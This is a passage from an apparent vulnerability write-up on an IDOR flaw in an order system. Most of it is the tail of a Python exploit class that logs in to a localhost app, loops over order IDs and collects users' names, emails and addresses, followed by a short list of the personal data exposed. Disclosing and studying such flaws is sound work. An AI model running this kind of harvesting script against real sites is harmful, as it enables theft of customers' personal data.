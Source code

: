 ```python
        return {
            'order_id': order_id,
            'user': user_info,
            'shipping': address_info,
            'total': total
        }
    
    def harvest_orders(self, order_ids):
        """Harvest information from multiple orders"""
        harvested_data = []
        
        for order_id in order_ids:
            print(f"[*] Checking order: {order_id}")
            data = self.extract_order_info(order_id)
            
            if data:
                print(f"[+] Successfully harvested: {order_id}")
                print(f"    User: {data['user'].get('username', 'Unknown')}")
                print(f"    Email: {data['user'].get('email', 'Unknown')}")
                print(f"    Total: {data['total']}")
                harvested_data.append(data)
                
        return harvested_data

# Example usage
if __name__ == "__main__":
    # Login first to get session
    login_data = {'username': 'testuser', 'password': 'testpass123'}
    login_resp = requests.post('http://localhost:8000/login/', data=login_data)
    session_id = login_resp.cookies.get('sessionid')
    
    # Exploit IDOR
    exploit = IDORExploit('http://localhost:8000', session_id)
    
    # Try some order IDs
    test_orders = [
        'ORD-ABCDE-12345',
        'ORD-TEST1-TEST2',
        'ORD-DEMO1-DEMO2'
    ]
    
    harvested = exploit.harvest_orders(test_orders)
    print(f"\n[+] Harvested {len(harvested)} orders with personal data!")
```

## Impact Analysis

### Data Exposed
1. **Personal Information**
   - Full names
   - Email addresses
   - Phone numbers
   - Physical addresses
   - Account creation dates
